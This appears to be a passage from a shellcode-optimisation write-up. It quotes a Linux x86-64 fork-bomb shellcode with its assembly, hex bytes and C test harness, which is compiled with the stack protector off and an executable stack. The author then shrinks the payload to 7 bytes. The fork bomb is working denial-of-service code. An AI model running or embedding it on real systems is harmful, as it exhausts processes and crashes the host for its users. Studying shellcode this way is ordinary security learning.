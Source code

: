 ```nasm
#ld shell.o -o shell <=== Making Binary File

#./bin2shell.sh shell <== xtract hex code from the binary(
https://github.com/touhidshaikh/bin2shell)

=================SHELLCODE(INTEL FORMAT)=================

section .text
    global _start:
_start:
    xor rax,rax
    add rax,57
    syscall
    jmp _start

===================END HERE============================

====================FOR C Compile===========================

Compile with gcc with some options.

# gcc -fno-stack-protector -z execstack shell-testing.c -o shell-testing

*/

#include<stdio.h>
#include<string.h>


unsigned char code[] = "\x48\x31\xc0\x48\x83\xc0\x39\x0f\x05\xeb\xf5";

main()
{

printf("Shellcode Length:  %d\n", (int)strlen(code));

int (*ret)() = (int(*)())code;

ret();

}

/*More Shellcode => Download Link :
https://github.com/touhidshaikh/shellcode/tree/master/Linux */
```

I was able to shrink down the final shellcode size to 7 bytes which is 4 bytes less than the original. Defiantly an improvement compared to the other two.

```nasm
global _start

section .text

_start:
	; pid_t fork(void)
	; rax=57
	push 0x39
	pop rax
	syscall
	jnz _start
```

